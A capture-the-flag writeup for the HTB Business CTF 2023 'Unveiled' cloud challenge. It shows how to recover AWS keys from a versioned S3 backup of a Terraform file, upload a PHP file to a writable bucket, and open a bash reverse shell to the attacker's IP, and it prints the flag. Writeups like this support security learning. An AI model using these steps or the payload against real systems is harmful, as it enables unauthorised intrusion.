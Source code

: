 ```yaml
---
layout: post
title: HTB Business CTF 2023 Writeup - Cloud - Unveiled
date: 2023-07-19
type: post
tags:
- Writeup
- Hacking
- BusinessCTF
- CTF
permalink: /2023/07/HTBBusinessCTF/CloudUnveiled
img: 2023/07/HTBBusinessCTF/Unveiled/Unveiled.jpg
---
```


I this challenge I had to find AWS credentials in an exposed S3 buckets. And use them to upload a reverse shell.

> Easy

The challenged consisted of a simple static website. When I looked at the traffic in Caido, I saw that it was trying to load some JavaScript from `s3.unveiled.htb`. I added that domain to my hosts file and configure my `aws` cli to use it.

```bash
$ alias aws='aws --endpoint-url http://s3.unveiled.htb'
```

With the cli configured, I tried listing buckets and files.

```bash
$ aws s3 ls                                            
2023-07-16 07:54:09 unveiled-backups
2023-07-16 07:54:09 website-assets

$ aws s3 ls unveiled-backups
index.html
main.tf

$ aws s3 ls website-assets                  

An error occurred (InvalidClientTokenId) when calling the ListObjectsV2 operation: The security token included in the request is invalid
```

There were two buckets. I could not read what `website-assets` contained. But I had access to `unveiled-backups`. I downloaded the two files it contained.


```bash
$ aws s3api get-object --bucket unveiled-backups --key index.html index.html
$ aws s3api get-object --bucket unveiled-backups --key main.tf main.tf
```

The HTML file was the code for the site. The `main.tf` file contained the Terraform code to provision the two buckets.

```
variable "aws_access_key"{
  default = ""
}
variable "aws_secret_key"{
  default = ""
}

provider "aws" {
  access_key=var.aws_access_key
  secret_key=var.aws_secret_key
}

resource "aws_s3_bucket" "unveiled-backups" {
  bucket = "unveiled-backups"
  acl    = "private"
  tags = {
    Name        = "S3 Bucket"
    Environment = "Prod"
  }
  versioning {
    enabled = true
  }
}

resource "aws_s3_bucket_acl" "bucket_acl" {
  bucket = aws_s3_bucket.unveiled-backups.id
  acl    = "public-read"
}

resource "aws_s3_bucket" "website-assets" {
  bucket = "website-assets"
  acl    = "private"
}

data "aws_iam_policy_document" "allow_s3_access" {
  statement {
    principals {
      type        = "AWS"
      identifiers = ["683633011377"]
    }

    actions = [
      "s3:GetObject",
      "s3:ListBucket",
      "s3:PutObject"
    ]

    resources = [
      aws_s3_bucket.website-assets.arn,
      "${aws_s3_bucket.website-assets.arn}/*",
    ]
  }

resource "aws_s3_bucket_policy" "bucket_policy" {
  bucket = aws_s3_bucket.website-assets.id
  policy = data.aws_iam_policy_document.allow_s3_access.json
}
```

Sadly, it did not contain any credentials. I requested the list of versions from AWS.

```bash
$ aws s3api list-object-versions --bucket unveiled-backups
```

```json
{
    "Versions": [
        ...
        {
            "ETag": "\"9c9e9d85b28ce6bbbba93e0860389c65\"",
            "Size": 1107,
            "StorageClass": "STANDARD",
            "Key": "main.tf",
            "VersionId": "a3156f08-f993-4dbe-8e93-cc5495af3309",
            "IsLatest": true,
            "LastModified": "2023-07-16T11:54:11+00:00",
            "Owner": {
                "DisplayName": "webfile",
                "ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a"
            }
        },
        {
            "ETag": "\"4947c773e44f5973a9c3d37f24cb8e63\"",
            "Size": 1167,
            "StorageClass": "STANDARD",
            "Key": "main.tf",
            "VersionId": "26d116f4-4977-43d9-9f47-be4ff730fbf8",
            "IsLatest": false,
            "LastModified": "2023-07-16T11:54:11+00:00",
            "Owner": {
                "DisplayName": "webfile",
                "ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a"
            }
        }
    ]
}
```

There were two versions of the `main.tf` file. I extracted the older version.

```bash
$ aws s3api get-object --bucket unveiled-backups --key main.tf main.tf --version-id 26d116f4-4977-43d9-9f47-be4ff730fbf8

$ cp main.tf unveiled-backups/mainWithCreds.tf

$ diff unveiled-backups/mainWithCreds.tf unveiled-backups/main.tf 
2c2
<   default = "AKIA6CFMOGFLAHOPQTMA"
---
>   default = ""
5c5
<   default = "tLK3S3CNsXfj0mjPsIH2iCh5odYHMPDwSVxn7CB5"
---
>   default = ""
```

This one has credentials in it. I configured the cli to use them.

```bash
$ aws configure                                                                                                         
AWS Access Key ID [****************MDFE]: AKIA6CFMOGFLAHOPQTMA
AWS Secret Access Key [****************ue6g]: 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
Default region name [us-east-1]: 
Default output format [json]: 


$ aws s3 ls website-assets
2023-07-16 07:54:10      91790 background.jpg
2023-07-16 07:54:10       4372 index.html
```

This did not give me much more. I tried to find what else I could do with the credentials I had. Eventually I found that I could write into the bucket. 

I created a small PHP script and pushed it to the bucket.

```bash
$ cat test.php 
<?php
echo ('IN');

$ aws s3 cp test.php s3://website-assets/
upload: ./test.php to s3://website-assets/test.php
```

I tried accessing the file through a browser. I worked.

![RCE](/assets/images/2023/07/HTBBusinessCTF/Unveiled/RCE.png "RCE")

I modified the script to launch a reverse shell.

```php
<?php
`bash -c 'bash -i >& /dev/tcp/10.10.14.54/4444 0>&1'`;
```

I copied it to the server, access it and got a shell on my netcat listener.

From there, I just had to look around and find the flag.

```bash
www-data@unveiled:/var/www/html$ pwd
pwd
/var/www/html

www-data@unveiled:/var/www/html$ cd ..
cd ..

www-data@unveiled:/var/www$ ls
flag.txt
html

www-data@unveiled:/var/www$ cat flag.txt
cat flag.txt
HTB{th3_r3d_pl4n3ts_cl0ud_h4s_f4ll3n}
```